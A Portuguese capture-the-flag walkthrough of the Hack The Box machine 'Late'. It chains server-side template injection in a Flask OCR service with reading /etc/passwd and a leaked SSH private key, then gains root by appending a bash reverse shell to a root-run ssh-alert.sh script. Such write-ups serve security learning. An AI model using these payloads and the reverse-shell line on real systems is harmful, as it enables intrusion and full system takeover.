 # Late

## Enumeração

Primeiramente, enumerando as portas e serviços assecíveis usando o **nmap**:

![Untitled](images/Untitled.png)

Observamos que existe uma aplicação web rodando na porta 80 (**http** padrão). Ao acessarmos o site, existe uma página “Home” e uma página “Contact”, essa segunda possui um formulário que não envia nenhuma request ao servidor realmente, portanto é apenas um enfeite.

![Untitled](images/Untitled%201.png)

![Untitled](images/Untitled%202.png)

Conseguimos extrair a informação do domínio pelo email no rodapé “support@late.htb”; e na *Home*, encontramos um link para images.late.htb, que é um subdomínio. Após acrescentá-los no arquivo **/etc/hosts**:

![Untitled](images/Untitled%203.png)

### Enumerando diretórios e subdomínios

Utilizando o gobuster e as [SecLists](https://github.com/danielmiessler/SecLists):

```
gobuster dir -w ~/SecLists/Discovery/Web-Content/raft-small-directories.txt -u 10.10.11.156
gobuster dns -w ~/SecLists/Discovery/DNS/subdomains-top1million-20000.txt -d late.htb
```

Não descobrimos nada na enumeração de diretórios, e a enumeração de subdomínios confirmou apenas o images.late.htb que já conhecíamos:

![Untitled](images/Untitled%204.png)

### Olhando images.late.htb

Encontramos um serviço que detecta textos em uma imagem e transforma em texto plano. A funcionalidade dessa aplicação é bem ruim, a chance dela não entender o texto na imagem é muito grande, mesmo estando bem claro.

![Untitled](images/Untitled%205.png)

## Exploração

Vamos usar o ImageMagick para fazer alguns testes:

```
convert -gravity center -background black -fill white -size 2000x300 caption:'test' test.png
```

Com esse comando, criamos uma imagem escrito “test” dentro dela:

![Untitled](images/Untitled%206.png)

Ao enviarmos pelo site, o resultado é um arquivo **.txt** com o seguinte conteúdo:

```
<p>test
</p>
```

Essa tag **HTML** <p> é um pouco suspeita, testando se existe Server-side Template Injection com a seguinte imagem:

![testssti.png](images/testssti.png)

Observamos o seguinte comportamento:

![Untitled](images/Untitled%207.png)

Testando com uma sintaxe específica:

![testssti2.png](images/testssti2.png)

```
<p>12
</p>
```

Confirmamos assim que realmente existe um SSTI. Como estamos numa aplicação feita em **Flask**, é muito provável que a template engine seja o **Jinja2**, que é a padrão.

Testando mais um payload:

![Untitled](images/Untitled%208.png)

```
<p>444
</p>
```

Esse é realmente um comportamento esperado para o **Jinja2**!

![SSTI](images/ssti.png)

Fonte: [https://portswigger.net/research/server-side-template-injection](https://portswigger.net/research/server-side-template-injection)

Utilizando essa vulnerabilidade para ler arquivos da máquina:

```
{{ get_flashed_messages.__globals__.__builtins__.open("/etc/passwd").read() }}
```

![passwd2.png](images/passwd2.png)

```
<p>root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
svc_acc:x:1000:1000:Service Account:/home/svc_acc:/bin/bash
rtkit:x:111:114:RealtimeKit,,,:/proc:/usr/sbin/nologin
usbmux:x:112:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
avahi:x:113:116:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/usr/sbin/nologin
cups-pk-helper:x:114:117:user for cups-pk-helper service,,,:/home/cups-pk-helper:/usr/sbin/nologin
saned:x:115:119::/var/lib/saned:/usr/sbin/nologin
colord:x:116:120:colord colour management daemon,,,:/var/lib/colord:/usr/sbin/nologin
pulse:x:117:121:PulseAudio daemon,,,:/var/run/pulse:/usr/sbin/nologin
geoclue:x:118:123::/var/lib/geoclue:/usr/sbin/nologin
smmta:x:119:124:Mail Transfer Agent,,,:/var/lib/sendmail:/usr/sbin/nologin
smmsp:x:120:125:Mail Submission Program,,,:/var/lib/sendmail:/usr/sbin/nologin

</p>
```

Observe o usuário svc_acc, provavelmente é ele que está rodando a aplicação. Vemos que ele esqueceu a chave privada para acessar o **ssh** na pasta **.ssh**:

![ssh.png](images/ssh.png)

```
<p>-----BEGIN RSA PRIVATE KEY-----
MIIEpAIBAAKCAQEAqe5XWFKVqleCyfzPo4HsfRR8uF/P/3Tn+fiAUHhnGvBBAyrM
HiP3S/DnqdIH2uqTXdPk4eGdXynzMnFRzbYb+cBa+R8T/nTa3PSuR9tkiqhXTaEO
bgjRSynr2NuDWPQhX8OmhAKdJhZfErZUcbxiuncrKnoClZLQ6ZZDaNTtTUwpUaMi
/mtaHzLID1KTl+dUFsLQYmdRUA639xkz1YvDF5ObIDoeHgOU7rZV4TqA6s6gI7W7
d137M3Oi2WTWRBzcWTAMwfSJ2cEttvS/AnE/B2Eelj1shYUZuPyIoLhSMicGnhB7
7IKpZeQ+MgksRcHJ5fJ2hvTu/T3yL9tggf9DsQIDAQABAoIBAHCBinbBhrGW6tLM
fLSmimptq/1uAgoB3qxTaLDeZnUhaAmuxiGWcl5nCxoWInlAIX1XkwwyEb01yvw0
ppJp5a+/OPwDJXus5lKv9MtCaBidR9/vp9wWHmuDP9D91MKKL6Z1pMN175GN8jgz
W0lKDpuh1oRy708UOxjMEalQgCRSGkJYDpM4pJkk/c7aHYw6GQKhoN1en/7I50IZ
uFB4CzS1bgAglNb7Y1bCJ913F5oWs0dvN5ezQ28gy92pGfNIJrk3cxO33SD9CCwC
T9KJxoUhuoCuMs00PxtJMymaHvOkDYSXOyHHHPSlIJl2ZezXZMFswHhnWGuNe9IH
Ql49ezkCgYEA0OTVbOT/EivAuu+QPaLvC0N8GEtn7uOPu9j1HjAvuOhom6K4troi
WEBJ3pvIsrUlLd9J3cY7ciRxnbanN/Qt9rHDu9Mc+W5DQAQGPWFxk4bM7Zxnb7Ng
Hr4+hcK+SYNn5fCX5qjmzE6c/5+sbQ20jhl20kxVT26MvoAB9+I1ku8CgYEA0EA7
t4UB/PaoU0+kz1dNDEyNamSe5mXh/Hc/mX9cj5cQFABN9lBTcmfZ5R6I0ifXpZuq
0xEKNYA3HS5qvOI3dHj6O4JZBDUzCgZFmlI5fslxLtl57WnlwSCGHLdP/knKxHIE
uJBIk0KSZBeT8F7IfUukZjCYO0y4HtDP3DUqE18CgYBgI5EeRt4lrMFMx4io9V3y
3yIzxDCXP2AdYiKdvCuafEv4pRFB97RqzVux+hyKMthjnkpOqTcetysbHL8k/1pQ
GUwuG2FQYrDMu41rnnc5IGccTElGnVV1kLURtqkBCFs+9lXSsJVYHi4fb4tZvV8F
ry6CZuM0ZXqdCijdvtxNPQKBgQC7F1oPEAGvP/INltncJPRlfkj2MpvHJfUXGhMb
Vh7UKcUaEwP3rEar270YaIxHMeA9OlMH+KERW7UoFFF0jE+B5kX5PKu4agsGkIfr
kr9wto1mp58wuhjdntid59qH+8edIUo4ffeVxRM7tSsFokHAvzpdTH8Xl1864CI+
Fc1NRQKBgQDNiTT446GIijU7XiJEwhOec2m4ykdnrSVb45Y6HKD9VS6vGeOF1oAL
K6+2ZlpmytN3RiR9UDJ4kjMjhJAiC7RBetZOor6CBKg20XA1oXS7o1eOdyc/jSk0
kxruFUgLHh7nEx/5/0r8gmcoCvFn98wvUPSNrgDJ25mnwYI0zzDrEw==
-----END RSA PRIVATE KEY-----

</p>
```

## Pós-exploração

Basta então salvarmos essa chave e acessarmos o usuário via **ssh**.

```
ssh -i sshkey svc_acc@10.10.11.156
```

Achamos a flag de usuário:

```
cat user.txt
```

### Escalação de privilégios

Subindo o **linpeas** e o **pspy**:

![Untitled](images/Untitled%209.png)

Dando permissão de execução:

```
chmod +x linpeas.sh pspy
```

Ao rodar o **linpeas**, descobrimos o seguinte arquivo:

![Untitled](images/Untitled%2010.png)

Vemos que somos o dono desse arquivo e que temos permissão de **append** (flag **a** no último comando).

Esse script **ssh-alert.sh** aparenta enviar um email para o root toda vez que alguém realiza login via **ssh**. Vamos testar essa funcionalidade e observar com o **pspy**:

![Untitled](images/Untitled%2011.png)

Note que o script (**ssh-alert.sh**) é executado pelo root (UID=0) quando um usuário loga. Sabendo disso, vamos editar então esse script para quando o root executar, obtermos uma reverse shell dele.

```
echo 'bash -i >& /dev/tcp/SEU-IP/PORTA 0>&1' >> /usr/local/sbin/ssh-alert.sh
```

No seu terminal:

```
nc -lnvp PORTA
```

Ao logarmos novamente com svc_acc, obtemos então acesso ao root.

```
cat /root/root.txt
```